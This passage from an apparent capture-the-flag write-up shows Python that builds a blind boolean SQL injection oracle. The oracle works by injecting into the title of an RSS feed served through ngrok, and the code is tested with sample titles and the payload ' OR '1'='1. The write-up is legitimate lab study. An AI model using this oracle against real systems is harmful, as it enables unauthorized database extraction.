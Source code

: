 ```python
        soup = BeautifulSoup(res.content, 'html.parser')
        alert = soup.find(class_=["alert", "alert-danger"]).string
        # Our injection was falsy
        return (False, alert, res)
    
    elif 'application/json' in res.headers['Content-Type']:
        # Get json content of response
        res_json = res.json()
        
        if 'error' in res_json:
            if res_json['error'] == 'Feed with same title already exists!':
                # Query returned 1 or more rows -> "title already exists" error
                # Our injection was truthy
                return (True, res_json['error'], res)
            
            elif res_json['error'] == 'Failed to retrieve feed!':
                # Challenge server couldn't reach our feed
                # Possibly got rate limited by ngrok
                raise RuntimeError(res, 'Failed to retrieve feed, check the server / ngrok')
                
    # Unknown error occurred
    return(None, "error", res)
```

Now, we can call `query_challenge()` to see what happens if we put some text inside the `<title>` of the RSS feed. Let's test the helper function out.


```python
# This title shouldn't exist inside the challenge server, we should get a no new feeds allowed error
query_challenge("What How")
```




    (False, 'Failed to add What How; no new feeds allowed!', <Response [200]>)




```python
# This title does exist inside the challenge server, we should get a title already exists error
query_challenge("Cyware News - Latest Cyber News")
```




    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# This SQL injection is truthy and will return all rows, we should get a title already exists error
query_challenge("' OR '1'='1")
```

